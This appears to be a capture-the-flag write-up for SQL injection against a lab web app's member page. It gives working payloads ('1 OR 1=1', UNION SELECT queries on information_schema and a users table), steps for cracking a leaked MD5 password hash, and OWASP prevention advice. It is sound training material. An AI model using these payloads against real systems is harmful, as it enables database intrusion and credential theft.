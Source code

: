 # Vulnerability

SQL injection allow you to access and manipulate all your datas.

# Identification

During the request, we have got database error.

# Resolve

Go to http://10.11.249.210/?page=member\
Fill the form with http://10.11.249.210/?page=member\
1 OR 1=1 and submit (http://10.11.249.210/?page=member&id=1+OR+1%3D1&Submit=Submit#)\
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB\
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- users

Columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

With this cmd, we will identify the id wanted
1 UNION SELECT 1, user_id FROM users

We will parse all columns and find what we need

5 UNION SELECT concat(user_id, first_name, last_name, town, country, planet), concat(Commentaire, countersign) user_id FROM users where user_id = 5

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28

countersign->md5->lower->sha256->flag

# Prevent

- Use of Prepared Statements (with Parameterized Queries)
- Use of Properly Constructed Stored Procedures
- Allow-list Input Validation
- STRONGLY DISCOURAGED: Escaping All User Supplied Input

# Resources

https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html<br>
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection<br>
https://www.dcode.fr/md5-hash<br>
https://www.dcode.fr/sha256-hash
